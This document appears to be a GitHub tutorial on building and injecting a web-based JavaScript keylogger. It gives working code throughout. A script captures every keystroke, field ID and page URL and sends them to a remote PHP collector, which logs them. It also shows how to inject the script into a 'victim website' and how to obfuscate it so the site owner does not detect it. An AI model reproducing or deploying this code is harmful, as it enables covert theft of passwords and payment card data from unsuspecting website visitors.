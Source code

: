 ## How to Create a Web-Based Javascript Keylogger

Researchers estimate thousands of e-commerce sites are under attack by a single threat actor that has infected servers with a web-based keylogger. Popular e-commerce sites infected with web-based keyloggers are being used to steal credit card data as it's entered into online checkout forms. More than 100 compromised sites have been identified, but the number could be in the thousands.

**Source:** [threatpost.com](https://threatpost.com/web-based-keylogger-used-to-steal-credit-card-data-from-popular-sites/121141/)

* * *

###### WHAT WE CAN DO WITH A KEYLOGGER?

Keylogger is a type of software that once active on a system, can record every keystroke made by the system. All the recorded keystroke is saved in a log file. A keylogger can record a message, email, and capture any type of information you type at any time using your keyboard.

* * *

###### WHO USES A KEYLOGGER?

A keylogger is a surveillance tool, used by employers to ensure employees use work computers for business purposes only. There's also a growing market for parents who want to use these tools to stay informed about a child's online activities. But nowadays these tools are used by a hacker for hacking email ids and confidential information of the user like password Social Security number, Credit Card, etc ... This is one of the easiest ways of extracting critical information by tricking people.

* * *

###### HOW IT WORKS ?

Below is an example for a simple web-based keylogger, In this documentation, you will know how keylogger works, type of programming by which we record and monitor every keystroke typed by the user on a website.

* * *

###### CREATE THE KEYLOGGER

First of all, we have to create an environment for practical and follow the steps which we mention in the details below.

**Create HTML Form**

```html
<form action="#">
    <label>Firstname:</label>
    <input type="text" name="firstname" placeholder="Mickey" style="width:250px">
    <label>Lastname:</label>
    <input type="text" name="lastname" placeholder="Mouse" style="width:250px">
    <label>Message:</label>
    <textarea name="message" style="width:500px;height:100px;"></textarea>
    <input type="submit" value="Submit">
</form>
```

This HTML form is for the unique purpose to demonstrate how a web-based keylogger works.

**Create JS Keylogger file - keylogger.js**

```js
if((window.jQuery))
{
    console.log("jQuery Found");
}
else
{
    console.log("jQuery Not Found");
    var script = document.createElement('script');
    script.src = 'https://code.jquery.com/jquery-3.3.1.min.js';
    document.body.appendChild(script);
}

function c(d)
{
    jQuery.ajax(
    {
        dataType: "jsonp",
        type:"GET",
        url: "https://example.com/keylogger.php",
        jsonp:"keypressed",
        data:
        {
            altnKey:d.altKey?1:0,
            ctrlKey:d.ctrlKey?1:0,
            userKey:d.key,
            targKey:d.target.id,
            userURI:d.target.baseURI
        },
        async:false,
        success: function(data)
        {
            console.log(data);
        },
        error:function(xhr, ajaxOptions, thrownError)
        {
            console.log("Error");
        }
    });
}

window.onload = function()
{
    window.addEventListener("keydown", function(e)
    {
        c(e);
    });
}
```

The above code in JavaScript can be injected directly to the victim website or can be hosted remotely. The purpose of this code is to grab the keystroke of the user and send it to a remote server. Please be sure to replace "https://example.com/keylogger.php" with the real URL of your PHP file.

To save time we are going to do it with jQuery. So to avoid any errors the first thing we do is make sure that jQuery is present on the victim page, and load it in case we didn't found it.

We declare a function "**c**", where the parameter "**d**" which will be the keypress. This function will have an Ajax call to the PHP file that receives the keystrokes.

**Create PHP Keylogger file - keylogger.php**

```php
header($_SERVER["SERVER_PROTOCOL"]." 404 Not Found", true, 404);
header('Access-Control-Allow-Methods: GET, REQUEST, OPTIONS');
header('Access-Control-Allow-Credentials: true');
header('Access-Control-Allow-Origin: *');
header('Access-Control-Allow-Headers: Content-Type, *');

$file = 'data.txt';
if(!file_exists($file))
{
    $fh = fopen($file, 'w');
}

function f($str)
{
    return trim(preg_replace("(\\\)","",htmlentities(strip_tags($str),ENT_QUOTES,'UTF-8')));
}

$altnKey=(int)$_GET['altnKey'];
$ctrlKey=(int)$_GET['ctrlKey'];
$userKey=f($_GET['userKey']);
$targKey=f($_GET['targKey']);
$userURI=f($_GET['URI']);

$string = $altnKey."|".$ctrlKey."|".$userKey."|".$targKey."|".$userURI."\n";
file_put_contents($file, $string, FILE_APPEND);
```

The server part is in PHP. There is nothing to explain about the above code, the purpose of the PHP file is to receive the keystroke value transferred in Ajax by the JavaScript and store it in a simple text file. The "keylogger.php" must be hosted to a remote server and the full file URL must be specified in the "keylogger.js" file.

You can adapt the above code to match your exact needs. For example, you maybe would like to save the results directly to a database or either send it to an e-mail address.

**Inject the JS file**

Now that we are ready with our file, we must inject the JavaScript on our victim website. To do it, we will add the below line of code at the end of our HTML file. In a real situation, you must add this line between the tags. Please be sure to replace "https://example.com/keylogger.js" with the real URL of your JS file.

```html
<script type="text/javascript" src="https://example.com/keylogger.js"></script>
```

* * *

###### JAVASCRIPT OBFUSCATION

We can move further, using an [obfuscation](https://javascriptobfuscator.com) online tool to hide our JavaScript code and avoid the website owner to detect the keylogger at first sight.
